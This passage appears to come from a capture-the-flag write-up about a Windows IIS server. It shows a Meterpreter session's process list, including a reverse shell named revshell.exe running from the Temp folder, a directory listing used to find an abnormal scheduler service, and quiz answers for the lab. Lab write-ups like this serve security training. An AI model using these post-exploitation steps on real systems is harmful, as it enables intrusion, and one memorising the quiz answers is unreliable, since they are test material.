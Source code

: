  820   2552  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 864   676   svchost.exe                                            
 884   616   dwm.exe                                                
 916   676   svchost.exe                                            
 944   676   svchost.exe                                            
 988   676   svchost.exe                                            
 1128  676   spoolsv.exe                                            
 1176  676   amazon-ssm-agent.exe                                   
 1244  676   svchost.exe                                            
 1268  676   LiteAgent.exe                                          
 1312  676   svchost.exe                                            
 1328  676   svchost.exe                                            
 1368  676   WService.exe                                           
 1476  676   msdtc.exe                                              
 1552  676   wlms.exe                                               
 1560  1368  WScheduler.exe                                         
 1576  676   Ec2Config.exe                                          
 1848  676   sppsvc.exe                                             
 2008  676   svchost.exe                                            
 2044  676   vds.exe                                                
 2316  744   WmiPrvSE.exe                                           
 2360  820   conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2464  2144  WScheduler.exe                                         
 2536  916   taskhostex.exe                                         
 2552  1328  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
 2608  2600  explorer.exe                                           
 2940  820   revshell.exe          x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\revshell.exe
 3060  744   SppExtComObj.Exe                                       
 3068  2584  ServerManager.exe                                      

meterpreter > 

Answer: `WindowsScheduler.exe`

## #4.4 - What is the name of the binary you’re supposed to exploit?

_Hint: have you checked for logs for the abnormal service?_

meterpreter > cd "c:\program files (x86)"
meterpreter > ls
Listing: c:\program files (x86)
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2013-08-22 15:36:16 +0200  Common Files
40777/rwxrwxrwx   4096  dir   2013-08-22 17:39:30 +0200  Internet Explorer
40777/rwxrwxrwx   0     dir   2013-08-22 17:39:30 +0200  Microsoft.NET
40777/rwxrwxrwx   8192  dir   2019-08-04 13:36:42 +0200  SystemScheduler
40777/rwxrwxrwx   0     dir   2019-08-06 23:12:04 +0200  Uninstall Information
40777/rwxrwxrwx   0     dir   2013-08-22 17:39:30 +0200  Windows Mail
40777/rwxrwxrwx   0     dir   2013-08-22 17:39:30 +0200  Windows NT
40777/rwxrwxrwx   0     dir   2013-08-22 17:39:30 +0200  WindowsPowerShell
100666/rw-rw-rw-  174   fil   2013-08-22 17:39:32 +0200  desktop.ini
